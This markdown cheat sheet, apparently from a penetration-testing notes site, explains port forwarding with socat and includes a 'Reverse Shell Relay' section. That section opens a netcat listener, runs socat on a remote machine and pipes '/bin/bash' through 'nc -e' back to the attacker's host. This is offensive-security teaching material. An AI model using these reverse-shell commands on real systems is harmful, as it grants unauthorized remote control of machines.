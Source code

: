 ```yaml
---
title: Port Forwarding with Socat
description: Socat is a multipurpose relay tool. It can be used to port forwarding.
tags:
    - Network
refs:
    - https://linuxize.com/post/how-to-setup-ssh-tunneling/
date: 2023-03-19
draft: false
---
```


## Port Forwarding

Run the following command in local machine.

```sh
socat tcp-listen:8080,fork tcp:<remote-ip>:80
```

With command above, we can access to **`http://localhost:8080/`** and get the content of the remote website.

<br />

## Port Forwarding (from Remote Machine)

Run the following command in remote machine.

```sh
socat tcp-listen:1234,fork,reuseaddr tcp:localhost:8080
```

With command above, we can access to **`http://<remote-ip>:1234`** in local machine, and get the content of the remote **8080** port.

<br />

## Quiet Port Forwarding

### 1. Open Up Two Ports in Local Machine

```sh
socat tcp-listen:<local-port> tcp-listen:<remote-port>,fork,reuseaddr &
```

### 2. Make a Connection between Local Port and Remote Port

In remote machine,

```sh
socat tcp:<local-ip>:<local-port> tcp:<remote-ip>:<remote-port>,fork &
```

### 3. Confirmation in Your Local Machine

For example, if **`<remote-port>`** is **8000 (HTTP)**, we can access to **`localhost:<remote-port>`**.

### 4. Stop Port Forwarding

```sh
# Stop backgrounds
jobs
# kill %<NUMBER>
kill %1
```

<br />

## Reverse Shell Relay

### 1. Open Listener in Your Local Machine

```sh
nc -lvnp <local-port>
```

### 2. Run Socat in Remote Machine

```sh
./socat tcp-l:8000 tcp:<local-ip>:<local-port> &
nc 127.0.0.1 8000 -e /bin/bash
```

### 3. Confirmation in Your Local Machine

You can connect the remote shell, confirm by some commands.

```sh
whoami
```

### 4. Stop Reverse Shell Relay

```sh
# Stop backgrounds
jobs
# kill %<NUMBER>
kill %1
```
